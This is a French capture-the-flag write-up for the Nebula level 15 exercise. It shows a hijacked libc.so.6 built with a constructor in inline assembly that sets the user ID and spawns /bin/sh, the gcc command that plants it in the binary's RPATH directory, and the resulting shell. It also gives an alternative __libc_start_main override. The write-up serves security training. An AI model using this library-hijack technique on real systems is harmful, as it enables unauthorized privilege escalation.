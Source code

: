 ```c
#include <stdlib.h>
#include <unistd.h>


void __attribute__ ((constructor)) my_init(void)
{ 
        __asm(
                // setreuid(984, 984)
                "movl $0x46, %eax\n\t"
                "movl $0x3d8, %ebx\n\t"
                "movl $0x3d8, %ecx\n\t"
                "int $0x80\n\t"

                // execve
                "xor    %ecx, %ecx\n\t"
                "xor    %edx, %edx\n\t"
                "push   %ecx\n\t" // null byte
                "push   $0x68732f2f\n\t" // //sh
                "push   $0x6e69622f\n\t" // /bin
                "mov    %esp, %ebx\n\t"
                "push %edx\n\t"
                "push %ebx\n\t"
                "movl $0xb, %eax\n\t"
                "int    $0x80\n\t"

                // exit
                "xorl %eax,%eax\n\t"
                "xorl %ebx,%ebx\n\t"
                "incl %eax\n\t"
                "int $0x80\n\t"

        );
}
```

Ca fonctionne malgré un warning :

```bash
level15@nebula:/tmp$ gcc -shared -nostdlib libc.so.6.c -o /var/tmp/flag15/libc.so.6 
level15@nebula:/tmp$ /home/flag15/flag15 
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
flag15@nebula:/tmp$ getflag
You have successfully executed getflag on a target account
```

J'ai trouvé deux autres solutions sur [information security notes](https://73696e65.github.io/2015/06/exploit-exercises-nebula-11-15#level15).

La première consiste à réécrire `__libc_start_main` :

```c
#include <stdio.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) { 
  setreuid(geteuid(),geteuid());
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```
